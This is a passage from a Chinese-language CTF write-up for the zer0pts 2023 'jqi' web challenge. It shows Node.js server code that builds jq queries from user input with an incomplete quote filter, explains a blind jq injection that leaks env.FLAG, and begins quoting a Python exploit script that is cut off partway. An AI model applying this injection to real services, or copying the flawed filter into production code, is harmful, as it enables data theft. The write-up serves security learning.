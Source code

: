 ``` js
        }
    }
    const keysQuery = keys.map(key => {
        return `${key}:.${key}`
    }).join(',');

    // build query for filtering results
    let condsQuery = '';

    for (const cond of conds) {
        const [str, key] = cond.split(' in ');
        if (!KEYS.includes(key)) {
            return reply.send({ error: 'invalid key' });
        }

        // check if the query is trying to break string literal
        if (str.includes('"') || str.includes('\\(')) {
            return reply.send({ error: 'hacking attempt detected' });
        }

        condsQuery += `| select(.${key} | contains("${str}"))`;
    }

    let query = `[.challenges[] ${condsQuery} | {${keysQuery}}]`;
    console.log('[+] keys:', keys);
    console.log('[+] conds:', conds);
    console.log(query)

    let result;
    try {
        result = await jq.run(query, './data.json', { output: 'json' });
    } catch(e) {
        console.log(e)
        return reply.send({ error: 'something wrong' });
    }

    if (conds.length > 0) {
        reply.send({ error: 'sorry, you cannot use filters in demo version' });
    } else {
        reply.send(result);
    }
});
```

雖然說有擋雙引號但沒擋 `\`，因此只要兩個條件配合，就可以插入自己的 jq command，達成 command injection，用 `env.FLAG` 可以拿到 flag。

不過問題是不會把結果傳回來，所以是 blind injection，一個一個字元慢慢 leak 就行了，底下貼的是 [zer0pts CTF 2023 writeup (4 web challs)](https://blog.arkark.dev/2023/07/17/zer0pts-ctf/) 的 exploit：

``` js
import httpx
import string

# BASE_URL = "http://localhost:8300"
BASE_URL = "http://jqi.2023.zer0pts.com:8300"

CHARS = "}_" + string.ascii_letters + string.digits


def make_str(xs: str) -> str:
    return "(" + "+".join([f"([{ord(x)}] | implode)" for x in xs]) + ")"


def is_ok(prefix: str) -> bool:
```